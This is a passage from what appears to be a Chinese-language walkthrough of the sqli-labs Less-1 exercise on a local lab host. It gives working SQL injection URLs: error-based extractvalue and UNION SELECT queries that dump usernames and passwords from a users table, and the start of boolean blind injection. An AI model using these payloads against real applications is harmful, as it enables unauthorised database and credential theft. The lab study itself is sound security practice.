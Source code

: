 - 获取数据(好像只能获取2两条数据)

```sql
http://192.168.77.131/master/Less-1/
?id=1' and extractvalue(1, concat(0x3a,(select group_concat(id, 0x3a, username, 0x3a, password) from security.users),0x3a)) --+
```

![image-20240820195336227](assets/image-20240820195336227.png)

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

![image-20240820195416224](assets/image-20240820195416224.png)

### 布尔盲注

- 判断数据库名字长度(使用``<``,``>``,``=``判断,过程省略了,这里判断为8-->``security``)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (length(database()))=8 --+
```

![image-20240820200601248](assets/image-20240820200601248.png)
